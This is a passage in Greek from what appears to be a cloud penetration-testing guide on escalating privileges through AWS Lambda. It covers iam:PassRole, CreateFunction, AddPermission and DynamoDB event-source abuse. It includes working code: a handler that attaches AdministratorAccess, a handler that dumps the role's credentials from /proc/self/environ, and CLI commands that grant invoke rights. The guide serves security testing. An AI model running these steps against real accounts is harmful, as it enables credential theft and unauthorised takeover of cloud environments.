 ```python
import boto3
def lambda_handler(event, context):
client = boto3.client('iam')
response = client.attach_user_policy(
UserName='my_username',
PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
)
return response
```
Είναι επίσης δυνατή η διαρροή των διαπιστευτηρίων ρόλου του lambda χωρίς την ανάγκη εξωτερικής σύνδεσης. Αυτό θα ήταν χρήσιμο για **Διακομιστές Lambda που είναι απομονωμένοι από το δίκτυο** που χρησιμοποιούνται για εσωτερικές εργασίες. Αν υπάρχουν άγνωστες ομάδες ασφαλείας που φιλτράρουν τα αντίστροφα κελιά σας, αυτό το τμήμα κώδικα θα σας επιτρέψει να διαρρεύσετε απευθείας τα διαπιστευτήρια ως έξοδο του lambda.
```python
def handler(event, context):
sessiontoken = open('/proc/self/environ', "r").read()
return {
'statusCode': 200,
'session': str(sessiontoken)
}
```

```bash
aws lambda invoke --function-name <lambda_name> output.txt
cat output.txt
```
**Πιθανή Επίπτωση:** Άμεση αύξηση προνομίων στο καθορισμένο ρόλο υπηρεσίας lambda.

{% hint style="danger" %}
Σημείωση ότι ακόμα κι αν φαίνεται ενδιαφέρον το **`lambda:InvokeAsync`** **δεν** επιτρέπει από μόνο του την εκτέλεση της εντολής **`aws lambda invoke-async`**, χρειάζεστε επίσης το `lambda:InvokeFunction`
{% endhint %}

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:AddPermission`

Όπως και στο προηγούμενο σενάριο, μπορείτε **να δώσετε στον εαυτό σας την άδεια `lambda:InvokeFunction`** αν έχετε την άδεια **`lambda:AddPermission`**
```bash
# Check the previous exploit and use the following line to grant you the invoke permissions
aws --profile "$NON_PRIV_PROFILE_USER" lambda add-permission --function-name my_function \
--action lambda:InvokeFunction --statement-id statement_privesc --principal "$NON_PRIV_PROFILE_USER_ARN"
```
**Πιθανή Επίπτωση:** Άμεση αύξηση προνομίων στο καθορισμένο ρόλο υπηρεσίας lambda.

Οι χρήστες με δικαιώματα **`iam:PassRole`, `lambda:CreateFunction`, και `lambda:CreateEventSourceMapping`** (και πιθανώς `dynamodb:PutItem` και `dynamodb:CreateTable`) μπορούν να αυξήσουν έμμεσα τα προνόμια ακόμη και χωρίς το `lambda:InvokeFunction`. Μπορούν να δημιουργήσουν μια λειτουργία Lambda με κακόβουλο κώδικα και να της αναθέσουν έναν υπάρχοντα ρόλο IAM.

Αντί να καλέσουν απευθείας τη Lambda, ο χρήστης δημιουργεί ή χρησιμοποιεί έναν υπάρχοντα πίνακα DynamoDB, συνδέοντάς τον με τη Lambda μέσω ενός χαρτογραφισμού πηγής συμβάντος. Αυτή η ρύθμιση εξασφαλίζει ότι η λειτουργία Lambda ενεργοποιείται αυτόματα με την εισαγωγή ενός νέου στοιχείου στον πίνακα, είτε από την ενέργεια του χρήστη είτε από άλλη διαδικασία, ενεργοποιώντας έτσι έμμεσα τη λειτουργία Lambda και εκτελώντας τον κώδικα με τα δικαιώματα του περασμένου ρόλου IAM.
```bash
aws lambda create-function --function-name my_function \
--runtime python3.8 --role <arn_of_lambda_role> \
--handler lambda_function.lambda_handler \
--zip-file fileb://rev.zip
```
Αν το DynamoDB είναι ήδη ενεργό στο περιβάλλον του AWS, ο χρήστης χρειάζεται μόνο **να καθιερώσει την αντιστοίχιση πηγής συμβάντος** για τη λειτουργία Lambda. Ωστόσο, αν το DynamoDB δεν χρησιμοποιείται, ο χρήστης πρέπει **να δημιουργήσει έναν νέο πίνακα** με ενεργοποιημένη τη ροή: